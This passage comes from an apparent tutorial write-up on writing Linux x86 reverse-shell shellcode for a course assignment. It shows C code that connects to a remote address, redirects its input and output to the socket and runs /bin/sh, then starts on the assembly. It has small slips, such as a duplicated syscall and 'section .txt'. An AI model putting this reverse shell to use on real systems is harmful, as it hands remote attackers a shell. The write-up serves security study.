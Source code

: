 ```c
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);
    //first syscall socket
    s = socket(AF_INET, SOCK_STREAM, 0);
    //second syscall connect
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    //third syscall dup2
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    
    //final syscall execve
    execve("/bin/sh", 0, 0);
    return 0;
}
```
After confirming that the code does indeed work by setting the REMOTE_ADDR to "127.0.0.1" and the port to 443 and trying it on my Kali machine, it's become apparent we need to execute 4 syscalls in our assembly code:
+ ***socket***
+ connect
+ ***dup2***
+ ***execve***
+ ***execve***

The syscalls I've highlighted, we already have code for from Assignment #1. Connect actually behaves very similarly to bind, with pretty much the only difference being we won't be specifying a local interface IP address but rather a remote IP address so it's unlikely to be `0.0.0.0` in our reverse shell code. 

## Building Our Assembly Code

### Assembly Skeleton Code
```nasm
global_start

section .txt
_start:
```
The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an argv[0] in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: argv[1] will correspond to EBX, argv[2] will correspond to ECX, etc.

If we consult `man 2 socket` for our first syscall, socket, we see that it takes 3 arguments in the following fashion:`int socket(int domain, int type, int protocol);`

So counting the syscall itself and its 3 arguments, we need to clear the first 4 registers so that we can work with those. Let's clear them by XOR'ing them with themselves so that we clear them in a way that does not introduce NULL BYTEs into our shellcode.
